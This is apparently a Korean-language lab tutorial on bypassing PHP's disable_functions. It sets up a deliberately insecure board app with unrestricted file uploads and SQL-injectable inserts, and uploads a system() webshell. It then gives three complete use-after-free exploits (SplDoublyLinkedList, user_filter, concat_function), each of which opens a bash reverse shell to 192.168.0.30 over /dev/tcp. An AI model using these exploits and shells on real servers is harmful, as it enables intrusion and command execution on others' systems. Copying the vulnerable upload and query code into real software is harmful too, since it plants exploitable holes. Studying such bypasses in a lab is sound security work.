


# disable_functions bypass

php.ini의 disable_functions에 지정된 함수는 사용이 제한되지만, 취약한 모듈을 이용하여 우회하는 공격

# **INDEX**

**1. [환경 구성](#환경-구성)**

**2. [SplDoublyLinkedList](#SplDoublyLinkedList)**

**3. [user_filter](#user_filter)**

**4. [concat_function](#concat_function)**

# **환경 구성**

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.0.58              |
| apache2       | 2.4.41-4ubuntu3.10        |
| php           | 7.4.3                     |
| mariadb       | 10.3.34-0ubuntu0.20.04.1  |

apache, php와 데이터베이스를 사용하기 위해 관련 패키지를 설치하자.

```sh
root@ubuntu:~# apt -y install apache2 php mariadb-server php-mysql
```

root비밀번호를 설정하고 데이터베이스, 테이블을 생성하자.

```sh
root@ubuntu:~# mysql_secure_installation
Enter current password for root (enter for none):
Set root password? [Y/n] Y
New password:
Re-enter new password:
Remove anonymous users? [Y/n] Y
Disallow root login remotely? [Y/n] n
Remove test database and access to it? [Y/n] Y
Reload privilege tables now? [Y/n] Y
root@ubuntu:~# mysql -u root -p'root'
MariaDB [(none)]> create database test;
MariaDB [(none)]> use test;
MariaDB [test]> CREATE TABLE board (id int(11) NOT NULL AUTO_INCREMENT, title varchar(255) NOT NULL DEFAULT '', author varchar(255) NOT NULL DEFAULT '', date datetime NOT NULL DEFAULT '0000-00-00 00:00:00', contents text NOT NULL, filepath varchar(255) DEFAULT NULL, PRIMARY KEY (`id`)) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;
```

생성한 데이터베이스로 접근할 수 있는 권한을 부여하자.

```sh
MariaDB [(none)]> grant all privileges on test.* to 'root'@localhost identified by 'root';
MariaDB [(none)]> flush privileges;
```

이후 php.ini를 수정하여 데이터베이스 관련 함수를 사용할 수 있도록 하자.

```ini
extension=mysqli.so
```

php.ini에서 system함수를 제한하자.

```
disable_functions = pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,dl,mail,gc_collect_cycles,getenv,unserialize,putenv,serialize,eval,Imagick
```

서비스를 재시작해준다.

```sh
root@ubuntu:~# systemctl restart apache2
```

게시판 페이지(index.php)를 생성하자.

```php
<?php
$DataBaseConnector	= mysqli_connect("localhost", "root", "root", "test");
if (!$DataBaseConnector) die("mysql connect error : ".mysqli_connect_error($DataBaseConnector));
$SQLQuery			= "SELECT id, title, author, date FROM board ORDER BY id DESC";
$QueryResultSet		= mysqli_query($DataBaseConnector, $SQLQuery);
?>
<!DOCTYPE html>
<html lang="ko">
<head>
    <meta charset="UTF-8">
	<link href="https://cdn.jsdelivr.net/npm/bootstrap@5.0.2/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-EVSTQN3/azprG1Anm3QDgpJLIm9Nao0Yz1ztcQTwFspd3yD65VohhpuuCOmLASjC" crossorigin="anonymous">
	<script src="https://cdn.jsdelivr.net/npm/bootstrap@5.0.2/dist/js/bootstrap.bundle.min.js" integrity="sha384-MrcW6ZMFYlzcLA8Nl+NtUVF0sA7MsXsP1UyJoMp4YLEuNSfAP+JcXn/tWtIaxVXM" crossorigin="anonymous"></script>
	<script src="https://cdn.jsdelivr.net/npm/@popperjs/core@2.9.2/dist/umd/popper.min.js" integrity="sha384-IQsoLXl5PILFhosVNubq5LC7Qb9DXgDA9i+tQ8Zj3iwWAwPtgFTxbJ8NT4GN1R8p" crossorigin="anonymous"></script>
	<script src="https://cdn.jsdelivr.net/npm/bootstrap@5.0.2/dist/js/bootstrap.min.js" integrity="sha384-cVKIPhGWiC2Al4u+LWgxfKTRIcfu0JTxR+EQDz/bgldoEyl4H0zUF0QKbrJ0EcQF" crossorigin="anonymous"></script>
    <title>PHP 게시판</title>
</head>
<body>
	<div class="container">
		<div class="row">
			<table class="table">
				<thead class="text-center table-dark">
					<th class="col-9">제목</th>
					<th class="col-1">작성자</th>
					<th class="col-2">작성일</th>
				</thead>
				<tbody class="text-center">
					<?php
					if (mysqli_num_rows($QueryResultSet) > 0) {
						while($Row = mysqli_fetch_array($QueryResultSet)) {
							echo "<tr>";
							echo "<td>{$Row['title']}</td>";
							echo "<td>{$Row['author']}</td>";
							echo "<td>{$Row['date']}</td>";
							echo "</tr>";
						}
					} else {
						echo "<tr>";
						echo "<td colspan='3'>작성된 글이 없습니다.</td>";
						echo "</tr>";
					}
					?>
				</tbody>
			</table>
		</div>
		<div class="row">
			<div class="text-end">
				<a href="/boardwrite.php" class="text-decoration-none">글쓰기</a>
			</div>
		</div>
	</div>
</body>
</html>
<?php
	mysqli_close($DataBaseConnector);
?>
```

글쓰기 버튼을 클릭 시 게시글을 작성할 수 있는 페이지(boardwrite.php)를 생성하자.

```php
<!DOCTYPE html>
<html lang="ko">
<head>
    <meta charset="UTF-8">
	<link href="https://cdn.jsdelivr.net/npm/bootstrap@5.2.0-beta1/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-0evHe/X+R7YkIZDRvuzKMRqM+OrBnVFBL6DOitfPri4tjfHxaWutUpFmBp4vmVor" crossorigin="anonymous">
	<script src="https://cdn.jsdelivr.net/npm/bootstrap@5.2.0-beta1/dist/js/bootstrap.bundle.min.js" integrity="sha384-pprn3073KE6tl6bjs2QrFaJGz5/SUsLqktiwsUTF55Jfv3qYSDhgCecCxMW52nD2" crossorigin="anonymous"></script>
    <title>PHP 게시판</title>
</head>
<body>
    <div class="container">
        <form action="boardinsert.php" method="post" enctype="multipart/form-data">
            <input type="text" name="title" class="form-control mt-3" placeholder="제목" required>
            <textarea rows="10" name="contents" class="form-control mt-3" placeholder="내용" required></textarea>
            <input type="file" name="file" class="form-control mt-3">
            <button type="submit" class="btn btn-secondary mt-3">제출하기</button>
        </form>
    </div>
</body>
</html>
```

게시글을 데이터베이스에 저장하고 첨부파일을 업로드할 수 있는 페이지(boardinsert.php)를 만들자.

```php
<?php
$BoardTitle         = $_POST['title'];
$BoardAuthor        = $_SERVER["REMOTE_ADDR"];
$BoardCreateTime    = date("Y-m-d H:i:s");
$BoardContents      = $_POST['contents'];
$UploadError        = $_FILES['file']['error'];
$UploadDirectory    = 'upload/'.$BoardAuthor;
$UploadFileName     = '';

if ($UploadError === UPLOAD_ERR_INI_SIZE || $UploadError === UPLOAD_ERR_FORM_SIZE) {
    echo "<script>alert('파일이 너무 큽니다.');</script>";
    echo "<script>location.href='/index.php';</script>";
} else {
    $DataBaseConnector  = mysqli_connect("localhost", "root", "root", "test");
    if (!$DataBaseConnector) die("mysql connect error : ".mysqli_connect_error($DataBaseConnector));

    if ($UploadError != UPLOAD_ERR_NO_FILE) {
        if (!file_exists($UploadDirectory)) mkdir($UploadDirectory, 0755, true);
        $UploadFileName     = $_FILES['file']['name'];
        move_uploaded_file($_FILES['file']['tmp_name'], "{$UploadDirectory}/{$UploadFileName}");
    }
    
    $SQLQuery = "INSERT INTO board(title, author, date, contents, filepath) VALUES('{$BoardTitle}', '{$BoardAuthor}', '{$BoardCreateTime}', '{$BoardContents}', '{$UploadFileName}')";
    $QueryResultSet = mysqli_query($DataBaseConnector, $SQLQuery);
    if ($QueryResultSet === false) die("mysql query error : ".mysqli_connect_error($DataBaseConnector));

    mysqli_close($DataBaseConnector);
    if ($UploadError != UPLOAD_ERR_NO_FILE) echo "<script>alert('/{$UploadDirectory}/{$UploadFileName}에 첨부파일이 업로드되었습니다.');</script>";
    echo "<script>location.href='/index.php';</script>";
}
?>
```

# **SplDoublyLinkedList**

[SplDoublyLinkedList](#https://www.php.net/manual/en/class.spldoublylinkedlist.php) 클래스는 이중 연결 목록의 주요 기능을 제공한다.

    취약한 버전 : PHP 8.0(alpha) 혹은 PHP 7.4.10과 이전 버전

서버에 접속 후 글쓰기 버튼을 클릭하여 게시글을 작성해보자.


system을 이용한 webshell파일(test.php)을 작성해보자.

```php
<?php
system($_GET['cmd']);
?>
```

이후 첨부파일에 등록후 제출하기 버튼을 클릭하자.



id명령을 전달해보면, php.ini의 disable_functions에서 system이 제한되어 어떠한 출력도 되지 않는다.

SplDoublyLinkedList의 UAF취약점을 이용하여 reverse shell을 연결하는 페이지(exploit.php)를 업로드 해보자.

```php
<?php
# https://xz.aliyun.com/t/8355#toc-1

function i2s(&$a, $p, $i, $x = 8) {
    for($j = 0;$j < $x;$j++) {
        $a[$p + $j] = chr($i & 0xff);
        $i >>= 8;
    }
}
function leak(&$a, $address) {
    global $s;
    i2s($a, 0x00, $address - 0x10);
    return strlen($s->current());
}
function getPHPChunk($maps) {
    // 전체 매모리 맵
    // $pattern = '/([0-9a-f]+\-[0-9a-f]+ [a-z|\-]{4} [0-9a-f]{8} [0-9a-f]{2}:[0-9a-f]{2} [0-9]+ .*)/';
    // preg_match_all($pattern, $maps, $match1);
    // foreach ($match1[1] as $value) echo "{$value}<br>";
    // echo "**********************************************************************************<br>";

    $pattern = '/([0-9a-f]+\-[0-9a-f]+) rw\-p 00000000 00:00 0 /';
    preg_match_all($pattern, $maps, $match);
    foreach ($match[1] as $value) {
        list($start, $end) = explode("-", $value);
        // 최소 청크 사이즈는 2MB
        if (($length = hexdec($end) - hexdec($start)) >= 0x200000 && $length <= 0x300000) {
            $address = array(hexdec($start), hexdec($end), $length);
            echo "[+] PHP Chunk: ".$start."-".$end.", length: 0x".dechex($length)."<br>";
            return $address;
        }
    }
}
function getElement(&$a, $address) {
    for ($x = 0;$x < ($address[2] / 0x1000 - 2);$x++) {
        $addr = 0x108 + $address[0] + 0x1000 * $x + 0x1000;
        for ($y = 0;$y < 5;$y++) {
            if (leak($a, $addr + $y * 0x08) === 0x1234567812345678 && ((leak($a, $addr + $y * 0x08 - 0x08) & 0xffffffff) === 0x01)) {
                echo "[+] SplDoublyLinkedList Element: 0x".dechex($addr + $y * 0x08 - 0x18)."<br>";
                return $addr + $y * 0x08 - 0x18;
            }
        }
    }
}
function bypass($elementAddress, &$a) {
    global $s;
    if (!$closureChunkAddress = getClosureChunk($a, $elementAddress)) die("[!] Get Closure Chunk Address Failed");
    $closure_object = leak($a, $closureChunkAddress + 0x18);
    echo "[+] Closure Object: 0x".dechex($closure_object)."<br>";
    $closure_handlers = leak($a, $closure_object + 0x18);
    echo "[+] Closure Handler: 0x".dechex($closure_handlers)."<br>";
    if(!($system_address = getSystem($a, $closure_handlers))) die("[!]Couldn't determine system address");
    echo "[+] Find system's handler: 0x".dechex($system_address)."<br>";
    i2s($a, 0x08, 0x506, 7);
    for ($i = 0;$i < (0x130 / 0x08);$i++) {
        $data = leak($a, $closure_object + 0x08 * $i);
        i2s($a, 0x00, $closure_object + 0x30);
        i2s($s->current(), 0x08 * $i + 0x100, $data);
    }
    i2s($a, 0x00, $closure_object + 0x30);
    i2s($s->current(), 0x20, $system_address);
    i2s($a, 0x00, $closure_object);
    i2s($a, 0x08, 0x108, 7);
    ($s->current())("/bin/bash -c 'bash -i >& /dev/tcp/192.168.0.30/1234 0>&1'");
}
function getClosureChunk(&$a, $address) {
    do {
        $address = leak($a, $address);
    } while (leak($a, $address) !== 0x00);
    echo "[+] Closure Chunk: 0x".dechex($address)."<br>";
    return $address;
}

function getSystem(&$a, $address) {
    $start = $address & 0xffffffffffff0000;
    $lowestAddr = ($address & 0x0000fffffff00000) - 0x0000000001000000;
    for($i = 0; $i < 0x1000 * 0x80; $i++) {
        $addr = $start - $i * 0x20;
        if ($addr < $lowestAddr) break;
        $nameAddr = leak($a, $addr);
        if ($nameAddr > $address || $nameAddr < $lowestAddr) continue;
        $name = dechex(leak($a, $nameAddr));
        $name = str_pad($name, 16, "0", STR_PAD_LEFT);
        $name = strrev(hex2bin($name));
        $name = explode("\x00", $name)[0];
        if($name === "system") return leak($a, $addr + 0x08);
    }
}
function canRead($maps, &$a) {
    global $s;
    if (!$chunkAddress = getPHPChunk($maps)) die("[!] Get PHP Chunk Address Failed");
    // 이걸 하면 current가 문자열 데이터가 나옴 왜일까
    i2s($a, 0x08, 0x06, 7);
    if (!$elementAddress = getElement($a, $chunkAddress)) die("[!] Get SplDoublyLinkedList Element Address Failed");
    bypass($elementAddress, $a);
}

class Trigger {
    function __destruct() {
        global $s;
        // 더미 해제
        $s->offsetUnset(0);
        // 메모리 할당 (Use After Free), 0x1234567812345678의 크기인 0xf만큼
        $a = str_shuffle(str_repeat("T", 0xf));
        i2s($a, 0x00, 0x1234567812345678);
        i2s($a, 0x08, 0x04, strlen($a) - 8);
        // DLL 포인터 위치 변경
        $s->current();
        $s->next();
        echo "[*] UAF Validation : ".dechex($s->current())."<br>";
        if ($s->current() !== 0x1234567812345678) die("[!] UAF failed");
        // 가상 메모리 확인
        $maps = file_get_contents("/proc/self/maps");
        if (!$maps) die("[!] maps open failed");
        canRead($maps, $a);
        echo "<br>[+] Done";
    }
}

// DLL
$s = new SplDoublyLinkedList();
// UAF 공격 클래스
$s->push(new Trigger());
$s->push("Twings");
$s->push(function($x){});
for ($x = 0;$x < 0x100;$x++) $s->push(0x1234567812345678);
// DLL 포인터를 Trigger로 이동
$s->rewind();
// Trigger 노드 해제하며 소멸자 호출
$s->offsetUnset(0);
?>
```

이후 첨부파일에 등록후 제출하기 버튼을 클릭하자.


nc로 세션을 대기 후 exploit.php에 접속하면 system함수를 통해 shell을 획득할 수 있다.



# **user_filter**

[user_filter](#https://www.php.net/manual/en/class.php-user-filter.php)는 연결된 스트림에서 데이터를 읽거나 쓸 때마다 호출되는 사용자 정의 필터이다.

    취약한 버전 : PHP 7.0 부터 PHP 7.4.26 이전 버전과 PHP 8.0 부터 PHP 8.0.13 이전 버전

서버에 접속 후 글쓰기 버튼을 클릭하여 게시글을 작성해보자.


system을 이용한 webshell파일(test.php)을 작성해보자.

```php
<?php
system($_GET['cmd']);
?>
```

이후 첨부파일에 등록후 제출하기 버튼을 클릭하자.


id명령을 전달해보면, php.ini의 disable_functions에서 system이 제한되어 어떠한 출력도 되지 않는다.

user_filter의 UAF취약점을 이용하여 reverse shell을 연결하는 페이지(exploit.php)를 업로드 해보자.

```php
<?php
# PHP 7.0-8.0 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=54350
# 
# This exploit should work on all PHP 7.0-8.0 versions
# released as of 2021-10-06
#
# Author: https://github.com/mm0r1

pwn("/bin/bash -c 'bash -i >& /dev/tcp/192.168.0.30/1234 0>&1'");

function pwn($cmd) {
    define('LOGGING', true);
    define('CHUNK_DATA_SIZE', 0x60);
    define('CHUNK_SIZE', ZEND_DEBUG_BUILD ? CHUNK_DATA_SIZE + 0x20 : CHUNK_DATA_SIZE);
    define('FILTER_SIZE', ZEND_DEBUG_BUILD ? 0x70 : 0x50);
    define('STRING_SIZE', CHUNK_DATA_SIZE - 0x18 - 1);
    define('CMD', $cmd);
    for($i = 0; $i < 10; $i++) $groom[] = Pwn::alloc(STRING_SIZE);
    stream_filter_register('pwn_filter', 'Pwn');
    $fd = fopen('php://memory', 'w');
    stream_filter_append($fd,'pwn_filter');
    fwrite($fd, 'x');
}

class Helper { public $a, $b, $c; }
class Pwn extends php_user_filter {
    private $abc, $abc_addr;
    private $helper, $helper_addr, $helper_off;
    private $uafp, $hfp;

    public function filter($in, $out, &$consumed, $closing) {
        if($closing) return;
        stream_bucket_make_writeable($in);
        $this->filtername = Pwn::alloc(STRING_SIZE);
        fclose($this->stream);
        $this->go();
        return PSFS_PASS_ON;
    }

    private function go() {
        $this->abc = &$this->filtername;
        $this->make_uaf_obj();
        $this->helper = new Helper;
        $this->helper->b = function($x) {};

        $this->helper_addr = $this->str2ptr(CHUNK_SIZE * 2 - 0x18) - CHUNK_SIZE * 2;
        $this->log("helper @ 0x%x", $this->helper_addr);

        $this->abc_addr = $this->helper_addr - CHUNK_SIZE;
        $this->log("abc @ 0x%x", $this->abc_addr);

        $this->helper_off = $this->helper_addr - $this->abc_addr - 0x18;

        $helper_handlers = $this->str2ptr(CHUNK_SIZE);
        $this->log("helper handlers @ 0x%x", $helper_handlers);

        $this->prepare_leaker();

        $binary_leak = $this->read($helper_handlers + 8);
        $this->log("binary leak @ 0x%x", $binary_leak);
        $this->prepare_cleanup($binary_leak);

        $closure_addr = $this->str2ptr($this->helper_off + 0x38);
        $this->log("real closure @ 0x%x", $closure_addr);

        $closure_ce = $this->read($closure_addr + 0x10);
        $this->log("closure class_entry @ 0x%x", $closure_ce);

        $basic_funcs = $this->get_basic_funcs($closure_ce);
        $this->log("basic_functions @ 0x%x", $basic_funcs);

        $zif_system = $this->get_system($basic_funcs);
        $this->log("zif_system @ 0x%x", $zif_system);

        $fake_closure_off = $this->helper_off + CHUNK_SIZE * 2;
        for($i = 0; $i < 0x138; $i += 8) {
            $this->write($fake_closure_off + $i, $this->read($closure_addr + $i));
        }
        $this->write($fake_closure_off + 0x38, 1, 4);

        $handler_offset = PHP_MAJOR_VERSION === 8 ? 0x70 : 0x68;
        $this->write($fake_closure_off + $handler_offset, $zif_system);

        $fake_closure_addr = $this->helper_addr + $fake_closure_off - $this->helper_off;
        $this->write($this->helper_off + 0x38, $fake_closure_addr);
        $this->log("fake closure @ 0x%x", $fake_closure_addr);

        $this->cleanup();
        ($this->helper->b)(CMD);
    }

    private function make_uaf_obj() {
        $this->uafp = fopen('php://memory', 'w');
        fwrite($this->uafp, pack('QQQ', 1, 0, 0xDEADBAADC0DE));
        for($i = 0; $i < STRING_SIZE; $i++) {
            fwrite($this->uafp, "\x00");
        }
    }

    private function prepare_leaker() {
        $str_off = $this->helper_off + CHUNK_SIZE + 8;
        $this->write($str_off, 2);
        $this->write($str_off + 0x10, 6);

        $val_off = $this->helper_off + 0x48;
        $this->write($val_off, $this->helper_addr + CHUNK_SIZE + 8);
        $this->write($val_off + 8, 0xA);
    }

    private function prepare_cleanup($binary_leak) {
        $ret_gadget = $binary_leak;
        do {
            --$ret_gadget;
        } while($this->read($ret_gadget, 1) !== 0xC3);
        $this->log("ret gadget = 0x%x", $ret_gadget);
        $this->write(0, $this->abc_addr + 0x20 - (PHP_MAJOR_VERSION === 8 ? 0x50 : 0x60));
        $this->write(8, $ret_gadget);
    }

    private function read($addr, $n = 8) {
        $this->write($this->helper_off + CHUNK_SIZE + 16, $addr - 0x10);
        $value = strlen($this->helper->c);
        if($n !== 8) { $value &= (1 << ($n << 3)) - 1; }
        return $value;
    }

    private function write($p, $v, $n = 8) {
        for($i = 0; $i < $n; $i++) {
            $this->abc[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }

    private function get_basic_funcs($addr) {
        while(true) {
            // In rare instances the standard module might lie after the addr we're starting
            // the search from. This will result in a SIGSGV when the search reaches an unmapped page.
            // In that case, changing the direction of the search should fix the crash.
            // $addr += 0x10;
            $addr -= 0x10;
            if($this->read($addr, 4) === 0xA8 &&
                in_array($this->read($addr + 4, 4),
                    [20151012, 20160303, 20170718, 20180731, 20190902, 20200930])) {
                $module_name_addr = $this->read($addr + 0x20);
                $module_name = $this->read($module_name_addr);
                if($module_name === 0x647261646e617473) {
                    $this->log("standard module @ 0x%x", $addr);
                    return $this->read($addr + 0x28);
                }
            }
        }
    }

    private function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = $this->read($addr);
            $f_name = $this->read($f_entry, 6);
            if($f_name === 0x6d6574737973) {
                return $this->read($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry !== 0);
    }

    private function cleanup() {
        $this->hfp = fopen('php://memory', 'w');
        fwrite($this->hfp, pack('QQ', 0, $this->abc_addr));
        for($i = 0; $i < FILTER_SIZE - 0x10; $i++) {
            fwrite($this->hfp, "\x00");
        }
    }

    private function str2ptr($p = 0, $n = 8) {
        $address = 0;
        for($j = $n - 1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($this->abc[$p + $j]);
        }
        return $address;
    }

    private function ptr2str($ptr, $n = 8) {
        $out = '';
        for ($i = 0; $i < $n; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    private function log($format, $val = '') {
        if(LOGGING) {
            printf("{$format}\n", $val); echo "<br>";
        }
    }

    static function alloc($size) {
        return str_shuffle(str_repeat('A', $size));
    }
}
?>
```

이후 첨부파일에 등록후 제출하기 버튼을 클릭하자.


nc로 세션을 대기 후 exploit.php에 접속하면 system함수를 통해 shell을 획득할 수 있다.


# **concat_function**

[concatenation operator](#https://www.php.net/manual/en/language.operators.string.php)는 문자열을 합치는 연산자이다.

    취약한 버전 : PHP 7.3 부터 PHP 8.1 까지 버전

서버에 접속 후 글쓰기 버튼을 클릭하여 게시글을 작성해보자.


system을 이용한 webshell파일(test.php)을 작성해보자.

```php
<?php
system($_GET['cmd']);
?>
```

이후 첨부파일에 등록후 제출하기 버튼을 클릭하자.


id명령을 전달해보면, php.ini의 disable_functions에서 system이 제한되어 어떠한 출력도 되지 않는다.

concatenation operator의 UAF취약점을 이용하여 reverse shell을 연결하는 페이지(exploit.php)를 업로드 해보자.

```php
<?php

# PHP 7.3-8.1 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=81705
# 
# This exploit should work on all PHP 7.3-8.1 versions
# released as of 2022-01-07
#
# Author: https://github.com/mm0r1

new Pwn("/bin/bash -c 'bash -i >& /dev/tcp/192.168.0.30/1234 0>&1'");

class Helper { public $a, $b, $c; }
class Pwn {
    const LOGGING = true;
    const CHUNK_DATA_SIZE = 0x60;
    const CHUNK_SIZE = ZEND_DEBUG_BUILD ? self::CHUNK_DATA_SIZE + 0x20 : self::CHUNK_DATA_SIZE;
    const STRING_SIZE = self::CHUNK_DATA_SIZE - 0x18 - 1;

    const HT_SIZE = 0x118;
    const HT_STRING_SIZE = self::HT_SIZE - 0x18 - 1;

    public function __construct($cmd) {
        for($i = 0; $i < 10; $i++) {
            $groom[] = self::alloc(self::STRING_SIZE);
            $groom[] = self::alloc(self::HT_STRING_SIZE);
        }
        
        $concat_str_addr = self::str2ptr($this->heap_leak(), 16);
        $fill = self::alloc(self::STRING_SIZE);

        $this->abc = self::alloc(self::STRING_SIZE);
        $abc_addr = $concat_str_addr + self::CHUNK_SIZE;
        self::log("abc @ 0x%x", $abc_addr);

        $this->free($abc_addr);
        $this->helper = new Helper;
        if(strlen($this->abc) < 0x1337) {
            self::log("uaf failed");
            return;
        }

        $this->helper->a = "leet";
        $this->helper->b = function($x) {};
        $this->helper->c = 0xfeedface;

        $helper_handlers = $this->rel_read(0);
        self::log("helper handlers @ 0x%x", $helper_handlers);

        $closure_addr = $this->rel_read(0x20);
        self::log("real closure @ 0x%x", $closure_addr);

        $closure_ce = $this->read($closure_addr + 0x10);
        self::log("closure class_entry @ 0x%x", $closure_ce);
        
        $basic_funcs = $this->get_basic_funcs($closure_ce);
        self::log("basic_functions @ 0x%x", $basic_funcs);

        $zif_system = $this->get_system($basic_funcs);
        self::log("zif_system @ 0x%x", $zif_system);

        $fake_closure_off = 0x70;
        for($i = 0; $i < 0x138; $i += 8) {
            $this->rel_write($fake_closure_off + $i, $this->read($closure_addr + $i));
        }
        $this->rel_write($fake_closure_off + 0x38, 1, 4);
        $handler_offset = PHP_MAJOR_VERSION === 8 ? 0x70 : 0x68;
        $this->rel_write($fake_closure_off + $handler_offset, $zif_system);

        $fake_closure_addr = $abc_addr + $fake_closure_off + 0x18;
        self::log("fake closure @ 0x%x", $fake_closure_addr);

        $this->rel_write(0x20, $fake_closure_addr);
        ($this->helper->b)($cmd);

        $this->rel_write(0x20, $closure_addr);
        unset($this->helper->b);
    }

    private function heap_leak() {
        $arr = [[], []];
        set_error_handler(function() use (&$arr, &$buf) {
            $arr = 1;
            $buf = str_repeat("\x00", self::HT_STRING_SIZE);
        });
        $arr[1] .= self::alloc(self::STRING_SIZE - strlen("Array"));
        return $buf;
    }

    private function free($addr) {
        $payload = pack("Q*", 0xdeadbeef, 0xcafebabe, $addr);
        $payload .= str_repeat("A", self::HT_STRING_SIZE - strlen($payload));
        
        $arr = [[], []];
        set_error_handler(function() use (&$arr, &$buf, &$payload) {
            $arr = 1;
            $buf = str_repeat($payload, 1);
        });
        $arr[1] .= "x";
    }

    private function rel_read($offset) {
        return self::str2ptr($this->abc, $offset);
    }

    private function rel_write($offset, $value, $n = 8) {
        for ($i = 0; $i < $n; $i++) {
            $this->abc[$offset + $i] = chr($value & 0xff);
            $value >>= 8;
        }
    }

    private function read($addr, $n = 8) {
        $this->rel_write(0x10, $addr - 0x10);
        $value = strlen($this->helper->a);
        if($n !== 8) { $value &= (1 << ($n << 3)) - 1; }
        return $value;
    }

    private function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = $this->read($addr);
            $f_name = $this->read($f_entry, 6);
            if($f_name === 0x6d6574737973) {
                return $this->read($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry !== 0);
    }

    private function get_basic_funcs($addr) {
        while(true) {
            // In rare instances the standard module might lie after the addr we're starting
            // the search from. This will result in a SIGSGV when the search reaches an unmapped page.
            // In that case, changing the direction of the search should fix the crash.
            // $addr += 0x10;
            $addr -= 0x10;
            if($this->read($addr, 4) === 0xA8 &&
                in_array($this->read($addr + 4, 4),
                    [20180731, 20190902, 20200930, 20210902])) {
                $module_name_addr = $this->read($addr + 0x20);
                $module_name = $this->read($module_name_addr);
                if($module_name === 0x647261646e617473) {
                    self::log("standard module @ 0x%x", $addr);
                    return $this->read($addr + 0x28);
                }
            }
        }
    }

    private function log($format, $val = "") {
        if(self::LOGGING) {
            printf("{$format}\n", $val); echo "<br>";
        }
    }

    static function alloc($size) {
        return str_shuffle(str_repeat("A", $size));
    }

    static function str2ptr($str, $p = 0, $n = 8) {
        $address = 0;
        for($j = $n - 1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p + $j]);
        }
        return $address;
    }
}

?>
```

이후 첨부파일에 등록후 제출하기 버튼을 클릭하자.


nc로 세션을 대기 후 exploit.php에 접속하면 system함수를 통해 shell을 획득할 수 있다.

